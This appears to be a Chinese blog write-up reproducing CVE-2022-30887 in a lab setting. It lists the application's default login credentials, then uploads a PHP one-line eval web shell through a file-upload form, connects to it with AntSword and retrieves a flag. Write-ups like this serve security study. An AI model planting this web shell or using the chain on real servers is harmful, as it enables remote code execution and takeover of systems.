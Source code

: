 ```yaml
---
title: CVE-2022-30887
subtitle:
date: 2025-03-14T13:09:16+08:00
slug: 7a7f065
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/529b7081391a3f3103fe3aadd4560b8c.png)
查看发现默认账号密码是

```
账号：mayuri.infospace@gmail.com
密码：mayurik
```



![](images/875cb9aebbbf498cb4466a6802afa712.png)
成功登录

![](images/6b0a7c771f6457457c92a39151f715dd.png)
发现文件上传，尝试上传一句话木马

![](images/12b6132cdc59d3475f338ba7c8c84130.png)

``` Php
<?php @eval($_POST['t1ng']);?>
```



![](images/82e9dbe9d0db0c67356f3c67ab725201.png)
用蚁剑进行连接

![](images/3524f32c8d49aed457eadbbee07b5fce.png)
查看目录找到flag

![](images/c78b26e371e7355a9b35b0dbe678ec18.png)
